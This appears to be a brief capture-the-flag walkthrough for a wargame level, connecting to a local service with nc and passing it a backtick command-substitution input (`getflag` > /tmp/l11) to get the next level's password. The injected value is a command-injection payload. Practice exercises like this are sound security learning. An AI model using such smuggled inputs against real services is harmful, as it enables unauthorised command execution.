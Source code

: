 ssh:
- `nc localhost 5151`
- in the prompt we input: <code>&grave;getflag&grave; > /tmp/l11`</code>
- (if you are not using a markdown reader the input is: `getflag` > /tmp/l11)
- `cat /tmp/l11`, copy the flag
- `su level12`, paste the flag as the password